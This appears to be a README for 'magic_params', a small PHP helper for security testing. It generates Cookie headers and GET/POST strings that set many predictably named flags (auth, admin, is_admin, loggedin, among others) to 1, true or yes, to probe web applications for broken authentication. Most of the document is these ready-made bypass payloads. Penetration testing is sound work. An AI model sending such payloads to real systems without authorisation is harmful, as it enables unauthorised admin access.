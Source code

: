 # magic_params
A simple helper for generating cookie header to test for broken authentication based on existence of predictably-named cookies.

Feel free to add some more words to the list, then run the tool, e.g.:

php generate_headers.php 

Cookie: auth=1; login=1; authenticated=1; admin=1; valid_user=1; valid-user=1; validuser=1; authenticated-user=1; authenticated_user=1; authenticateduser=1; valid=1; user=1; logged=1; loggedin=1; logged-in=1; logged_in=1; login=1; administrator=1; adminuser=1; admin-user=1; admin_user=1; is_valid=1; isvalid=1; is-valid=1; is_admin=1; isadmin=1; is-admin=1; isauthenticated=1; is-authenticated=1; is_authenticated=1; isuser=1; is_user=1; is-user=1

Cookie: auth=true; login=true; authenticated=true; admin=true; valid_user=true; valid-user=true; validuser=true; authenticated-user=true; authenticated_user=true; authenticateduser=true; valid=true; user=true; logged=true; loggedin=true; logged-in=true; logged_in=true; login=true; administrator=true; adminuser=true; admin-user=true; admin_user=true; is_valid=true; isvalid=true; is-valid=true; is_admin=true; isadmin=true; is-admin=true; isauthenticated=true; is-authenticated=true; is_authenticated=true; isuser=true; is_user=true; is-user=true

Cookie: auth=yes; login=yes; authenticated=yes; admin=yes; valid_user=yes; valid-user=yes; validuser=yes; authenticated-user=yes; authenticated_user=yes; authenticateduser=yes; valid=yes; user=yes; logged=yes; loggedin=yes; logged-in=yes; logged_in=yes; login=yes; administrator=yes; adminuser=yes; admin-user=yes; admin_user=yes; is_valid=yes; isvalid=yes; is-valid=yes; is_admin=yes; isadmin=yes; is-admin=yes; isauthenticated=yes; is-authenticated=yes; is_authenticated=yes; isuser=yes; is_user=yes; is-user=yes

GET/POST: auth=1&login=1&authenticated=1&admin=1&valid_user=1&valid-user=1&validuser=1&authenticated-user=1&authenticated_user=1&authenticateduser=1&valid=1&user=1&logged=1&loggedin=1&logged-in=1&logged_in=1&login=1&administrator=1&adminuser=1&admin-user=1&admin_user=1&is_valid=1&isvalid=1&is-valid=1&is_admin=1&isadmin=1&is-admin=1&isauthenticated=1&is-authenticated=1&is_authenticated=1&isuser=1&is_user=1&is-user=1

GET/POST: auth=true&login=true&authenticated=true&admin=true&valid_user=true&valid-user=true&validuser=true&authenticated-user=true&authenticated_user=true&authenticateduser=true&valid=true&user=true&logged=true&loggedin=true&logged-in=true&logged_in=true&login=true&administrator=true&adminuser=true&admin-user=true&admin_user=true&is_valid=true&isvalid=true&is-valid=true&is_admin=true&isadmin=true&is-admin=true&isauthenticated=true&is-authenticated=true&is_authenticated=true&isuser=true&is_user=true&is-user=true

GET/POST: auth=yes&login=yes&authenticated=yes&admin=yes&valid_user=yes&valid-user=yes&validuser=yes&authenticated-user=yes&authenticated_user=yes&authenticateduser=yes&valid=yes&user=yes&logged=yes&loggedin=yes&logged-in=yes&logged_in=yes&login=yes&administrator=yes&adminuser=yes&admin-user=yes&admin_user=yes&is_valid=yes&isvalid=yes&is-valid=yes&is_admin=yes&isadmin=yes&is-admin=yes&isauthenticated=yes&is-authenticated=yes&is_authenticated=yes&isuser=yes&is_user=yes&is-user=yes
